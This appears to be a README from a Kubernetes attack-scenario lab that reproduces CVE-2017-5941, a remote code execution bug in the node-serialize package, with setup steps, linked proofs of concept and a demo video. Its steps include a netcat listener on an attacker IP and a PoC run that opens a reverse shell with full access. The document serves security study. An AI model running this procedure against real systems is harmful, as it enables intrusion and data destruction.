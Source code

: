 ## CVE-2017-5941
https://nvd.nist.gov/vuln/detail/CVE-2017-5941#range-6741888 \
Target Application: Node \
Software Link: https://www.npmjs.com/package/node-serialize \
Version: 0.0.4 \
Writeup: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ \
Used PoCs: 
* https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html
* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Tactics Used
Initial Access: Application vulnerability \
Execution: Application exploit (RCE), Bash or cmd inside container


### Steps to Reproduce
1- `minikube start` \
2- `kubectl apply -f scenario-1-server.yaml` \
3- Forward port `kubectl port-forward pods/scenario-1-server-deployment-c9b7c56cf-ggvgm 4242:4242` \
4- Listen on port `1234` and your ip for TCP connections like `nc -l 144.122.139.40 1234` \
5- Run poc.py with your ip `./poc.py 144.122.139.40` \
6- Attacker now can view and delete anything they want.

### Demo
[scenario-1.webm](https://github.com/HasanYldz/kubernetes-attack-scenarios/assets/56763025/0300312b-0c85-40b9-83da-34f0fb4c7358)
